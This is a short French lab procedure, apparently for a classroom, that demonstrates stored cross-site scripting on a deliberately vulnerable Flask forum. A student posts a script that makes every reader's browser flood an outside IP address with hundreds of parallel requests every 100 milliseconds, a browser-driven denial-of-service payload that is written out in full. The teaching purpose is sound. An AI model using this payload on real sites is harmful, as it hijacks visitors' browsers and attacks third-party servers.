 # Procédure

## Partir le serveur cible sur le poste du prof

## Partir le forum sur la machine locale (poste du prof)

- se placer dans le projet forumPassoire **cd /path/to/forumPassoire**
- lancer le serveur flask avec la commande **python3 app.py**
- valider avec un navigateur en allant sur l'adresse **http://127.0.0.1:5000**
- afficher l'adresse IP du prof pour que chaque étudiant puisse se connecter au forum

## Créer un post qui envoie des requêtes

- choisir un étudiant X, le pirate
- les autres sont les utilisateurs du forum
- X navigue vers http://127.0.0.1:5000/create_post
- X entre le code suivant dans le post:
```html
Mon message qui va s'afficher
<script>
// Send 100 requests in parallel 
const sendRequests = async () => {
    const url = 'http://10.10.39.27/';
    const requests = [];

    for (let i = 0; i < 200; i++) {
        requests.push(fetch(url, { mode: 'no-cors'}));
    }

    try {
        const responses = await Promise.all(requests);
        const results = await Promise.all(responses.map(response => response.text()));
        console.log(results);
    } catch (error) {
        console.error('Error with requests:', error);
    }
};
// Example: Send 100 requests in parallel
setInterval(sendRequests, 100);
</script>
```
- X envoie son post
- Tout le monde recharge la page du forum
